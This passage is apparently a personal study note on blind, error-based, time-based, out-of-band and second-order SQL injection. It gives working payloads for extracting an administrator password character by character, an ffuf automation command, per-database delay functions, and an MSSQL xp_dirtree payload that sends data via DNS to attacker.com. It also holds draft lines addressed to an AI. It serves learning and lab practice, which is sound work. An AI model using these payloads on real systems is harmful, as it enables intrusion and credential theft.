' AND '1'='2
```

Observe differences such as:
- Content appearing/disappearing
- HTTP headers
- Status codes
- Presence or absence of content or specific elements
- Page length
- Specific strings or UI elements

>The goal is to find a **stable signal** you can trust during automation.

You establish a *dependency* between the query results and application behavior, which can be used to determine the results of other conditions you inject later.
#### 2. Infer data 

``instruction for AI: add different ways to do the same, possibly for different DBMSs``

Once you have a signal, you can extract arbitrary data.

- Verify that the condition is true, confirming that there is a table called `users`:

```SQL
' AND (SELECT 'a' FROM users LIMIT 1)='a
```

- Verify that the condition is true, confirming that there is a user called `administrator`:

```SQL
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

- Determine password length:

```SQL
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>10)='a
```

```SQL
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)<20)='a
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a
```

>[!tip]+ Two ways to determine string length
> 
> - `LENGTH()` functions:
> 
> ```SQL
> ' AND LENGTH(database())<10-- - # true
> ' AND LENGTH(database())>5-- -  # false
> ' AND LENGTH(database())=5-- -  # true 
> ```
> 
> - Pattern matching:
> 
> ```bash
> ' AND database() LIKE '___'-- -   # false
> ' AND database() LIKE '____'-- -  # false
> ' AND database() LIKE '_____'-- - # true
> ```

- Password characters:

```SQL
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

```SQL
' AND (SELECT 'a' FROM users WHERE username='administrator' AND SUBSTRING(password,1,1)='a
```

>[!note] See [[🛠️ SQL injection cheat sheet#Length|Length]], [[🛠️ SQL injection cheat sheet#Pattern matching|Pattern matching]], and [[🛠️ SQL injection cheat sheet#Substrings|Substrings]].

![[alphabet.svg]]

>[!tip] Optimize with **binary search**.

>[!important]+ Binary search
>The **binary search algorithm** is the most efficient way to infer data when you only have `true` and `false`. It works as follows:
>1. Divide the search space (e.g., alphabet) into two halves by **finding the middle index `mid`**.

>[!example]-
> ```SQL
> ' AND SUBSTRING(database(),1,1)>'m'--  # after m — true
> ' AND SUBSTRING(database(),1,1)>'s'--  # after s — true
> ' AND SUBSTRING(database(),1,1)>'w'--  # after w — false
> 
> # The character is between s and w in the alphabet.
> 
> ' AND SUBSTRING(database(),1,1)='w'--  # is 'w' — false
> ' AND SUBSTRING(database(),1,1)='v'--  # is 'v' — false
> ' AND SUBSTRING(database(),1,1)='u'--  # is 'u' — true
> ```

- Table name:

```SQL
' AND (SELECT table_name FROM information_schema.tables 
		WHERE table_schema=database() LIMIT 0,1) LIKE 'u%'--
```

- Credentials:

```SQL
' AND SUBSTRING((SELECT password FROM users 
		WHERE username='admin'),1,1)='a'--
```

Repeat per character.
#### 3. Automation

Blind SQLi is rarely done manually in practice.

- `ffuf`:

```bash
ffuf -u https://target.com \
-H "Cookie: TrackingId=xyz' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='FUZZ-- -" \
-w chars.txt
```

This way is rough and inefficient. 

- Use wordlists for word guessing.
- Length + first character -> filter wordlist

- Binary search
- Short-circuit conditions
- Filtering (e.g., `[a-f0-9]` for hashes)
### Turning blind into in-band

Sometimes you can force the database to **leak data via errors**:

```SQL
' AND CAST((SELECT username FROM users LIMIT 1) AS int)-- -
```

- Result:

```bash
ERROR: invalid input syntax for type integer: "administrator"
```

This effectively upgrades blind SQLi into **error-based SQLi**.

>[!tip] 
>It might be possible to turn blind SQL injection into an in-band one by inducing the database to output the results of the query inside a visible error message.

For example, you can use the `CAST()` function (used to convert one data type onto another) to achieve this:

```SQL
CAST((SELECT string_column_name FROM table_name) AS int)
```

>[!example]+ Example
> Say, you inject the following:
> 
> ```SQL
> AND CAST((SELECT username FROM users LIMIT 1) AS int)-- - 
> ```
> 
> The application returns an error:
> 
> ```
> ERROR: invalid input syntax for type integer: "administrator"
> ```
> 
> To retrieve the password:
> 
> ```SQL
> AND CAST((SELECT password FROM users WHERE username='administrator') AS int)-- - 
> ```
> 
> And you get the data inside an error message:
> 
> ```SQL
> ERROR: invalid input syntax for type integer: "passwd123"
> ```
#### Error-based blind SQLi

	``instruction for AI: explain based on solution: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors``

>**Error-based blind SQL injection** where the signal is **error vs. no error**, rather than content differences.

- You deliberately trigger errors **only when a condition is true**.
- The actual error message content **does not matter**.
- The **presence or absence of errors** alone is an indicator.

- To trigger conditional errors, you can use the [`CASE`](https://www.w3schools.com/sql/sql_case.asp) keyword: 

```SQL
(SELECT CASE
	WHEN <condition> THEN <value_if_true>
	ELSE <value_if_false>
END)
```

- Test if you can trigger a conditional error:
	
	- `true` (error):
	
	```SQL
	' AND (SELECT CASE 
	    WHEN (1=1) THEN 1/0 
	    ELSE 1 
	END)-- -
	```

	```SQL
	' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
	```

	- `false` (no error):
	
	```SQL
	' AND (SELECT CASE 
	    WHEN (1=2) THEN 1/0 
	    ELSE 1 
	END)-- -
	```

	```SQL
	' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
	```

	- `true` -> error, `false` -> no error.

- **Extracting data**:

```SQL
' AND (SELECT CASE 
    WHEN SUBSTR(password,1,1)='a' THEN 1/0 
    ELSE 1 
END FROM users WHERE username='administrator')-- -
``` 

```SQL
' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

```SQL
'||(CAST((SELECT password FROM users WHERE username='administrator') AS int)||'
```

```SQL
CAST((SELECT example_column FROM example_table) AS int)
```
### Time-based blind SQLi

> Time-based SQLi uses **conditional delays** to infer whether a condition is true or false.

- **No visible response differences** — classic boolean-based techniques fail.
- Only **response timing differences** is observable.

>[!interesting] This happens when an application processes SQL queries **synchronously**, so that delays from the database lead to delays in web server responses.

- Common delay functions:

| DBMS           | Syntax                                                                 |
| -------------- | ---------------------------------------------------------------------- |
| **MySQL**      | `SELECT SLEEP(10);`<br>`SELECT BENCHMARK(10000000, MD5('test'));`      |
| **MSSQL**      | `WAITFOR DELAY '0:0:10';`                                              |
| **PostgreSQL** | `SELECT pg_sleep(10);`                                                 |
| **Oracle**     | `SELECT DBMS_LOCK.SLEEP(10);`<br>`dbms_pipe.receive_message(('a'),10)` |
| **SQLite**     | `SELECT SLEEP(10);`                                                    |

1. **Confirm the delay**:

```SQL
' AND SLEEP(5)-- -
```

If the response is delayed → the injection is likely possible. 

2. **Add a condition**:

```SQL
' AND IF(1=1, SLEEP(5), 0)-- - # true - delay
' AND IF(1=2, SLEEP(5), 0)-- - # false - no delay
```

3. **Extract data**:

```SQL
' AND IF(SUBSTRING(database(),1,1)='u', SLEEP(5), 0)-- -
```

>[!warning]+ Avoid using too short delays
>- If the delay is too short (1-2 seconds), you're likely to have more positives because of jitter. 
>- The optimal delay is 5-10 seconds for remote targets, and 3-5 seconds for targets in a local network. 

>[!warning] Time-based blind SQLi is **extremely slow**, but works where all other techniques fail.

## Out-of-band SQLi

> **Out-of-band (OOB) SQL injection** is a technique where data is exfiltrated through a secondary channel, rather than being returned directly in the HTTP response.

- Instead of relying on visible query results (in-band) or inference (blind SQLi), OOB SQLi abuses the database server’s ability to initiate **outbound connections**. 
- The attacker forces the database to make a request to an external system they control, embedding sensitive data (e.g., query results) into that request.

- This approach is especially useful when:
	- The application does not return query results
	- Error messages are suppressed
	- Time-based techniques are unreliable or too slow

- Common OOB channels include:
	- **DNS lookups** (most common, often allowed in restricted environments)
	- **HTTP/HTTPS requests**
	- **SMB connections**
	- **FTP/TFTP transfers**
	- **LDAP queries**
	- **Email functionality (via DB features or extensions)**

> [!example]+
> - MSSQL using DNS exfiltration:
> 
> ```bsah
> '; EXEC xp_dirtree '\\'+@@version+'.attacker.com\share'--
> ```
> This payload leverages the `xp_dirtree` extended stored procedure to trigger a DNS lookup. The database server attempts to resolve a hostname that includes the result of `@@version`, so the value is sent to the attacker-controlled DNS server.

>[!note] DNS is often preferred because outbound DNS traffic is commonly allowed even on restricted networks.

>[!warning] Some techniques require elevated database privileges (e.g., access to extended stored procedures).

>[!bug]+ Labs
>- [[🛠️ SQL injection labs#16. Lab Blind SQL injection with out-of-band interaction|16. Lab Blind SQL injection with out-of-band interaction]]
>- [[🛠️ SQL injection labs#17. Lab Blind SQL injection with out-of-band data exfiltration|17. Lab Blind SQL injection with out-of-band data exfiltration]]
## Second-order SQL injection

> **Second-order SQL injection** (also called **stored SQL injection**) occurs when user input is initially stored safely, but later retrieved and used in a SQL query without proper sanitization.

- Unlike classic SQL injection, the payload is not executed immediately. Instead, it is "planted" in the application and only becomes dangerous when it is reused in a different context.
- This type of SQL injection is much harder to detect, since there's no immediate impact from the injected queries.

- **Typical flow:**
	1. The application accepts user input and stores it in the database (e.g., profile data, comments).
	2. The input appears harmless at insertion time.
	3. Later, the application retrieves this stored data and uses it in a SQL query without proper handling.
	4. The injected payload is executed at that point.

- **Why it’s tricky:**
	- There is no immediate feedback when the payload is submitted.
	- The vulnerable code path is often different from the input point.
	- Automated scanners frequently miss this class of vulnerability.


>[!example]+
> A username like:
> 
> ```SQL
> admin'--
> ```
> 
> is stored safely during registration. Later, it is used in a query like:
> 
> ```SQL
> SELECT * FROM users WHERE username = '<stored_username>';
> ```
> 
> If not properly parameterized, the stored value can break the query logic and lead to injection.

- **Testing tips:**
	- Track how input flows through the application (data lifecycle).
	- Revisit stored data in different features (e.g., admin panels, reports).
	- Pay special attention to areas where stored data is used to build dynamic queries.

>[!note] Second-order SQL injection is significantly easier to identify during **white-box testing** or code review, where data flow is visible, but it can still be found in black-box testing with careful input tracing.
## References and further reading 

- [`SQL injection — PortSwigger Web Security Academy`](https://portswigger.net/web-security/sql-injection)
	- [`Examining the database in SQL injection attacks — PortSwigger Web Security Academy`](https://portswigger.net/web-security/sql-injection/examining-the-database)
	- [`SQL injection cheat sheet — PortSwigger Web Security Academy`](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [`SQL Injection — OWASP`](https://owasp.org/www-community/attacks/SQL_Injection)
- [`Testing for SQL Injection — OWASP WSTG`](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)
- [`Testing for ORM Injection — OWASP WSTG`](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.7-Testing_for_ORM_Injection)

- [`sqlinjection`](https://www.sqlinjection.net)
- [`SQL injection (SQLi) — snyk`](https://learn.snyk.io/lesson/sql-injection/?ecosystem=python)
- [`SQL injection — Microsoft Learn`](https://learn.microsoft.com/en-us/sql/relational-databases/security/sql-injection?view=sql-server-ver17)
- [`SQL injection — Wikipedia`](https://en.wikipedia.org/wiki/SQL_injection)
 - [`SQL Injection: Examples, Real Life Attacks & 9 Defensive Measures — radware`](https://www.radware.com/cyberpedia/application-security/sql-injection/)
- [`SQL Injection Wiki — NetSPI`](https://sqlwiki.netspi.com/)
- [`SQL Injection Knowledge Base — websec.ca`](https://websec.ca/kb/sql_injection)

- [`SQL Injection in the Age of ORM: Risks, Mitigations, and Best Practices — afine`](https://afine.com/sql-injection-in-the-age-of-orm-risks-mitigations-and-best-practices/)

- [`SQL Parameters — W3Schools`](https://www.w3schools.com/sql/sql_parameterized_queries.asp)

